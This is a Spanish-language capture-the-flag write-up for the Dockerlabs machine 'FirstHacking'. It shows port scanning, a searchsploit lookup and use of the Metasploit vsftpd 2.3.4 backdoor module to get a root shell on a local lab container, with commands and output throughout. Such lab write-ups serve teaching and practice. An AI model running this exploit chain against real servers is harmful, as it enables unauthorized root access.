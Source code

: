 # 🖥️ Writeup - FirstHacking 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip firsthacking.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh firsthacking.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 18:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds
```
Vemos que solo el puerto `21` (`FTP`) está abierto y que la versión de `vsftpd` que corre es la `2.3.4`.

Esta versión en concreto es vulnerable a `Backdoor Command Execution`, como podemos comprobar tras utilizar `searchsploit`.

Info:
```
----------------------------------------- ---------------------------------
 Exploit Title                           |  Path
----------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/17491.rb
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
----------------------------------------- ---------------------------------
```

Abrimos `Metasploit` y empleamos el módulo de explotación para `vsftpd 2.3.4`.

```js
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 172.17.0.2
run
```

Info:
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:46523 -> 172.17.0.2:6200) at 2025-09-11 18:10:10 +0200
```

Obtenemos una `command shell` y verificamos qué privilegios tenemos.

```bash
/bin/bash -i
whoami
```

Info:
```
root@0cc78b8316b6:~/vsftpd-2.3.4# whoami
root
root@0cc78b8316b6:~/vsftpd-2.3.4#
```

Ya estamos como usuario root!